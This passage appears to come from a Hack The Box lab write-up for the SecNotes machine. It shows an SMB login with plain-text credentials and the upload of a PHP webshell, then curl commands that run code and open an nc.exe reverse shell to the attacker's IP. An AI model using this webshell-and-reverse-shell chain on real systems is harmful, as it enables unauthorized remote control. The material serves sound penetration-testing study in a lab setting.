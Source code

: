 However, we are unable to find iistart.png file on port 80. Moving to port 8088, we are able to find iistart.png file at http://secnotes.htb:8088/iistart.png. This means that the file contents on the SMB server are reflected to port 8088.

Next, let us try if we are able to put a file onto the SMB server and access it.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site
Try "help" to get a list of possible commands.
smb: \> put test.txt
putting file test.txt as \test.txt (0.0 kb/s) (average 0.0 kb/s)
```

![smb upload file](https://github.com/joelczk/writeups/blob/main/HTB/Images/Secnotes/smb_put.png)

Next, we will proceed to put a webshell onto the smb server and using the curl command, we are able to execute commands on port 8808. However, we realize that the SMB server will delete the webshell regularly so we only have a short window of time to exploit.

```
┌──(kali㉿kali)-[~/Desktop/secnotes]
└─$ smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site
Try "help" to get a list of possible commands.
smb: \> put cmd.php
putting file cmd.php as \cmd.php (0.2 kb/s) (average 0.2 kb/s)

┌──(kali㉿kali)-[~/Desktop/secnotes]
└─$ curl http://secnotes.htb:8808/cmd.php?cmd=whoami                                                 
secnotes\tyler
```

Lastly, all we have to do is to upload the nc.exe onto the SMB server and execute a curl command to obtain a reverse shell.

```
smb: \> put nc.exe
putting file nc.exe as \nc.exe (24.4 kb/s) (average 6.5 kb/s)

┌──(kali㉿kali)-[~]
└─$ curl http://secnotes.htb:8808/cmd.php?cmd=nc.exe+-e+cmd.exe+10.10.16.5+4000
```

### Obtaining user flag
```
C:\Users\tyler\Desktop>type user.txt
type user.txt
<Redacted user text>
```

### Obtaining admin credentials
Viewing the directory of C:\Users\tyler\Desktop, we are able to find a bash.lnk file and viewing the contents of the bash.lnk file, we are able to find a C:\Windows\System32\bash.exe file location string. Unfortunately, we are unable to find the bash.exe with the path location.
